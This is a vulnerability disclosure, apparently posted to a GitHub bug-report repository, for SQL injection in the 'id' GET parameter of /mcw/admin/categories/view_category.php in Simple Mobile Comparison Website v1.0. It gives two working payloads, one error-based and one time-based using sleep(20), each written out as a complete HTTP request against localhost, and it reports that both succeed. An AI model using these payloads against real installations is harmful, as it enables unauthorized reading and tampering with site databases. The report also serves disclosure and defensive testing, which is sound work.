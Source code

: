 # Simple Mobile Comparison Website v1.0 has SQL injection

BUG_Author:Zhang RuiMing

Website source address:https://www.sourcecodester.com/php/15186/simple-mobile-comparison-website-phpoop-free-source-code.html

Vulnerability File: /mcw/admin/categories/view_category.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=1' and (select 1 from(select count(*),concat(0x61626364,(select (elt(111=111,1))),0x51525354,floor(rand(0)*2))x from information_schema.plugins group by x)a) and 'a'='a

```
GET /mcw/admin/categories/view_category.php?id=1%27%20and%20(select%201%20from(select%20count(*),concat(0x61626364,(select%20(elt(111=111,1))),0x51525354,floor(rand(0)*2))x%20from%20information_schema.plugins%20group%20by%20x)a)%20and%20%27a%27=%27a HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=1n6947aiql2hh8itbuvff2apro
Connection: close
```

Injection success based on errors

![image](https://github.com/Kerkong/bug_report/blob/main/sql1.png)

Payload2:id=1' and (select 1 from (select(sleep(20)))o) and 'o'='o

```
GET /mcw/admin/categories/view_category.php?id=1%27%20and%20(select%201%20from%20(select(sleep(20)))o)%20and%20%27o%27=%27o HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=1n6947aiql2hh8itbuvff2apro
Connection: close
```

Server response time is 20 seconds

![image](https://github.com/Kerkong/bug_report/blob/main/sql2.png)
